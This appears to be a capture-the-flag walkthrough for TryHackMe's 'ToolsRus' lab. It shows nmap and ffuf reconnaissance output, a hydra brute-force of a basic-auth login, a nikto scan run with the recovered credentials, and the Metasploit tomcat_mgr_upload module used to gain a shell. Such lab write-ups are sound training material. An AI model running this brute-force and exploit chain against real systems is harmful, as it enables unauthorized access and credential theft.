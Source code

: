 ```bash
# PLATFORM          . THM
# CTF NAME          . ToolsRus
# DESCRIPTION       . Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/toolsrus
```

```bash
sudo nmap -sSVC -T5 10.10.75.25 -p- -oN toolsrus
```

```
PORT     STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d65b83ac39f5acb4bc147742a7a5a5fc (RSA)
|   256 869a54f60aa086f8790cc8769042de19 (ECDSA)
|_  256 708f6a2df1fcfd92649705dd2eeebdaa (ED25519)

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
ffuf -u http://10.10.75.25/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
guidelines              [Status: 301, Size: 315, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 168, Words: 16, Lines: 5]
protected               [Status: 401, Size: 458, Words: 42, Lines: 15]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```


> What directory can you find, that begins with a "g"?

- guidelines

> Whose name can you find from this directory?

```
Hey bob, did you update that TomCat server? 
```

- bob

> What directory has basic authentication?

- protected

> What is bob's password to the protected part of the website?

```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get /protected
```

> What other port that serves a webs service is open on the machine?

- 1234

> What is the name and version of the software running on the port from question 5?

- _http-title: Apache Tomcat/7.0.88

> Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
  How many documentation files did Nikto identify?

```
nikto -id bob:[password] -h http://10.10.75.25:1234/manager/html
```

- 5

> What is the server version?

_http-server-header: Apache/2.4.18 (Ubuntu)

> What version of Apache-Coyote is this service using?

_http-server-header: Apache-Coyote/1.1

> Use Metasploit to exploit the service and get a shell on the system.
  What user did you get a shell as?

- After some googling around, I found out that Apache Coyote 1.1 is vulnerable by using the metasploit `tomcat_mgr_upload` module.

```
use exploit/multi/http/tomcat_mgr_upload
```

- set `HttpPasswsord`, `Httpusername`, `RHOSTS`, `RPORT` and `run`.

- flag is in `/root/flag.txt`

